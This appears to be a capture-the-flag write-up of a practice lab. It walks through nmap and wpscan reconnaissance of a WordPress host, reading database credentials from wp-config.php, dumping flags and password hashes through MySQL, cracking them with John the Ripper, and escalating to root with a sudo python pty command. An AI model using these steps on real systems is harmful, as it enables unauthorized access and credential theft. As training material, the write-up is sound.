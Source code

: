 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services 
- Critical Vulnerabilities
- Exploitation

### Exposed Services

To begin a couple of nmap scans had to be done.  The first was to find which hosts were up.
  - Note: The "-sS" flag was used to quickly perform a TCP SYN scan on all hosts and the "-vv" was to display verbose output. 

```
nmap -sS -vv 192.168.1.0/24
```
The second scan was ran to reveal the below services and OS details.
  - Note: The "-A" flag tells nmap to scan for operating systems and services.
```
nmap -A 192.168.1.0/24
```
![nmap_OS_GitHub](https://user-images.githubusercontent.com/96896057/180900970-cde5b2a9-797e-4be8-8f8b-8d4144ed46a1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - ssh port 22
  - http port 80
  - rpcbind port 111
  - netbios-ssn port 139
  - microsoft-ds port 445


The following vulnerabilities were identified on each target:
- Target 1
  - ssh is open 
  - http is open
  - the http has a vulnerable Wordpress server

![nmap_GitHub](https://user-images.githubusercontent.com/96896057/180901150-349de607-5be8-4917-bdaa-220ea62f1844.jpg)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
```
flag1.txt`{b9bbcb33e11b80be759c4e844862482d}
```
![flag1_GitHub](https://user-images.githubusercontent.com/96896057/180901342-66075ffa-1e88-42cf-9166-1c5b888109db.png)
- **Exploit Used**
      - ssh to users host after exploting vulnerable worpress server
        ![ssh_michael_GitHub](https://user-images.githubusercontent.com/96896057/180901239-6bba5f41-7242-413c-a7d7-3c352ac368be.jpg)

  ```
  flag2.txt`{fcfd58dcdad9ab23faca6e9a36e581c}
  ```  
![flag2_GitHub](https://user-images.githubusercontent.com/96896057/180901877-b20cc13d-f233-4406-b8e8-7b0fb698572f.png)
    
- **Exploit Used**
      - Searching content of directories.


We then ran a wpscan to see what the site was vulnerable to:

![Flag2_GitHub](https://user-images.githubusercontent.com/96896057/180901445-deee105a-67b8-460b-b804-2bdd32d45b44.jpg)

We moved into the /var/www/html/wordpress/ directory and read the contents of the wp-config.php file to reveal the following useful information:

![MySQLServer_GitHub](https://user-images.githubusercontent.com/96896057/180903525-81afe1ee-4d33-4ccd-9947-013d46d828ca.jpg)

To gain access to the SQL database while still logged in as michael we ran the following command:
    
```
mysql -u root -p
```
This gave us access to the server once we entered the credentials we found:
```
DB_User: root
DB_PASSWORD: R@v3nSecurity
```

Once inside the process of finding the other flags was done entering the following ccommands in this order:
```
show databases;
```

```
use wordpress;
```
```
show tables;
```
```
select * from wp_posts;
```
Browsing the output of the "select * from wp_posts" command gave use flag3 as shown below.
```
flag3.txt`{afc01ab56b5091e7dccf93122770cd2}
```
![flag3](https://user-images.githubusercontent.com/96896057/180903358-fefd2ed2-132e-4cf2-a75b-8e286d049e82.png)
- **Exploit Used**
      - We scanned the contents of the database to find the flag and also the users hashes, which were otained with the following command: 
```
select * from wp_users;
```
This outputted the following information:
        ![SQLContents_GitHub](https://user-images.githubusercontent.com/96896057/180902241-c9a80858-db0a-4a66-8007-ca2cda4b889f.jpg)
- **Exploit Used**
      - Once we have the hash values we copied them to a text file so we could crack them using John the Ripper offline.

![John_GitHub](https://user-images.githubusercontent.com/96896057/181392772-36f44b53-c955-445e-adc8-5a77fed48129.png)
This gave us the password value of "pink84" for steven's account.  After John is finished we can log onto steven's account, he was not included in the sudoers group, but simply by guessing we were able to find the root login password as:
```
Username: root
Password: toor
```
```
flag4.txt`{715ea6c055b9fe3337544932f291ce}
```
  ![FinalFlagRaven](https://user-images.githubusercontent.com/96896057/181392857-f4ecb93d-9390-4421-821f-1639548f18f4.png)

___
***Update:*** Upon returning to this box I ran the following command while logged in as steven:
```
sudo -l
```
This showed that steven has sudo permission's to run Python.  Upon further diving and searching online the following command can be used to properly gain 'root' on the Target1 machine:

```
sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
```

![steven_sudo_root_ptycmd](https://user-images.githubusercontent.com/96896057/181854516-6cc51591-8e41-4f41-b743-aec50c96d92b.png)